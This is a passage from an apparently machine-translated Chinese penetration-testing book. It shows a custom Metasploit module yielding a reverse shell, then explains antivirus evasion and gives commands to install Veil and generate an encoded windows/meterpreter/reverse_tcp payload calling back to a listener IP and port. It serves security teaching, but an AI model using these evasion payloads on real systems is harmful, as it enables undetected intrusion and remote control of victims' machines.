 现在继续，开始 Metasploit。导出我们创建的模块，并尝试利用易受攻击的服务器：

![](img/9f271686-e0b4-46fd-b09e-a2f0f2a3b0c2.png)

正如我们所见，我们开发的漏洞工作完美无瑕，为我们提供了受害者机器的反面外壳，在我们的案例中，它与我们正在使用的机器是同一台机器。

# 对外壳代码进行编码以避免检测

现在，假设我们已经在正在测试的底层服务中发现了一个漏洞。但是，在这种情况下，该机箱已安装防病毒软件。任何好的防病毒软件都会包含已知漏洞的所有特征码，通常几乎所有 Metasploit 漏洞模块的特征码都会出现。因此，我们必须使用一种方法来规避防病毒检测。这意味着我们需要使用某种编码或任何其他方法来传递有效负载，以避免 AV 检测。我们有三种不同的方法可以做到这一点：

1.  最成功的方法是使用您选择的语言（Python/C/C++/Java）开发自定义漏洞。此方法非常有用，因为自定义攻击不会有任何 AV 签名，通常会逃避 AV 保护。或者，我们也可以下载一个公共漏洞，并对其进行大量修改，以更改其生成的签名。我们在 web 开发用例中开发的开发都是从零开始编写的，因此理论上任何 AV 都不应该接受它们。

2.  第二种方法是将有效负载/漏洞注入底层系统的进程内存中。这样做将在内存中执行代码，大多数防病毒软件都不会检测到这一点。
3.  第三种方法是利用编码来防止检测。在本节中，我们将看到如何利用一个非常强大的编码框架（称为 VEIL）来生成可能逃避 AV 检测的有效负载。

# 下载和安装面纱

应该注意的是，Veil 预装了最新版本的 Kali Linux。对于其他版本的 Linux，我们可以使用以下命令安装 Veil：

```
apt -y install veil
/usr/share/veil/config/setup.sh --force --silent
```

成功安装 Veil 后，生成 Veil 编码的有效载荷是一项非常简单的任务。当使用 veil 时，在幕后发生的事情是，它试图使利用代码变得神秘和随机，从而使用于基于签名的检测的 AV 可以从利用的随机性和神秘性中被愚弄。有两种方法可以做到这一点。一种方法是使用 veil 提供的交互式 shell。这可以通过键入命令`veil`，然后在规避模块下选择有效载荷来调用。另一个更简单的选项是在命令行中指定所有选项，如下所示：

```
veil -t Evasion -p 41 --msfvenom windows/meterpreter/reverse_tcp --ip 192.168.1.102 --port 4444 -o exploit
```
